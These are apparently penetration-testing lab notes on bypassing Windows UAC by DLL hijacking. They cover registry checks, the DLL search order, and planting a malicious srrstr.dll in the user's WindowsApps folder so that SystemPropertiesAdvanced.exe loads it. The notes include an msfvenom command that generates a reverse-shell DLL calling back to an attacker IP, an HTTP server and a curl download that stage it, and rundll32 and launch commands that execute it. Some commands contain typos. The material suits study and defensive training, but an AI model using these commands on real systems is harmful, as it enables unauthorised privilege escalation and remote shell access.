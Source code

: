 UAC is a feature that enables consent for elevated privileges.
https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works

List of registry keys:
https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-admin-approval-mode-for-the-built-in-administrator-account

![[Pasted image 20230107092515.png]]

```
Confirm UAC is Enabled:
REG QUERY HKEY_LOCAL_MACHINE\Sofware\Microsoft\Windows\CurrentVersion\Policies\System\
		/v EnableLUA

Checking UAC Level:
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\
		/v 

Checking Windows Version:
	[environment]::OSVersion.Version
```

![[Pasted image 20230107092941.png]]

https://github.com/hfiref0x/UACME project maintains a list of UAC bypasses.

###### When attempting to locate a DLL, Windows uses this following order:
```
1. The directory from which the applicaiton loaded
2. The System32 Directory C:\Windows\System32
3. 16-bit System Directory C:\Windows\System
4. The Windows Directory
5. Any directories listed in PATH

cmd /c echo %PATH%
```

## Scenario

32-bit `SystemPropertiesAdvanced.exe` attempts to load the non-existent DLL srrstr.dll, which is used
by System Restore functionality

![[Pasted image 20230107095051.png]]

WindowsApps is wihtin the user's path variable. We can potentially bypass UAC by using DLL
hijacking, placing a malicous `srrstr.dll` in the WindowsApps folder

## Generating Malicious srrstr.dll
```bash
msfvenom -p windows/shell_reverse_tcp LHSOT=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

sudo python3 -m http.server 8080
curl http://10.10.14.3:8080/srrstr.dll -O
"C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### Test Connection
```
rundll32 shell32.dll,Control_RunDLL \
		C:\Users\sarah]AppData\Local\Microsoft\WIndowsApps\srrstr.dll

C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

